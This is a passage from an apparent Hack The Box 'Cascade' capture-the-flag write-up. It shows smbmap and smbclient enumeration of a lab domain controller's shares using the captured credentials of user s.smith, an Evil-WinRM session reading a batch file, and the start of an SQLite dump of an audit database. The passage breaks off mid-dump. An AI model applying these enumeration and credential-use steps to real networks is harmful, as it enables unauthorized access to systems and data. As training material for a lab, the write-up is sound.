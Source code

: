 #### smbmap

Once again I fired up `smbmap` to see what level of access this user had to the **Audit$** share folder since I didn't know where it was mounted in the filesystem.  

```text
zweilos@kalimaa:~/htb/cascade$ smbmap -H 10.10.10.182 -u s.smith -p sT333ve2
[+] IP: 10.10.10.182:445        Name: Casc-DC1                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

`s.smith` only had Read access to the **Data** and **Audit** shares, as well as **print$**, **NETLOGON**, and **SYSVOL**

```text
zweilos@kalimaa:~/htb/cascade$ smbclient -U s.smith -W Cascade \\\\10.10.10.182\\Audit$
Enter CASCADE\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                13106687 blocks of size 4096. 7794884 blocks available
```

Since I had already checked all of the other shares, I logged into the **audit$** share.  The first file I checked, `RunAudit.bat`, only contained one line.

```text
*Evil-WinRM* PS C:\shares\audit> more RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

It looked like the executable `CascAudit.exe` runs against the database file `Audit.db` when this batch script is run. I downloaded the database file and then used the command `sqlite3 Auditdb`, which got me a SQLite shell with which I could enumerate the database.

```sql
zweilos@kalimaa:~/htb/cascade$ sqlite3 Audit.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .databases
main: /home/zweilos/htb/cascade/Audit.db
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> .dump DeletedUserAudit 
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Username"      TEXT,
```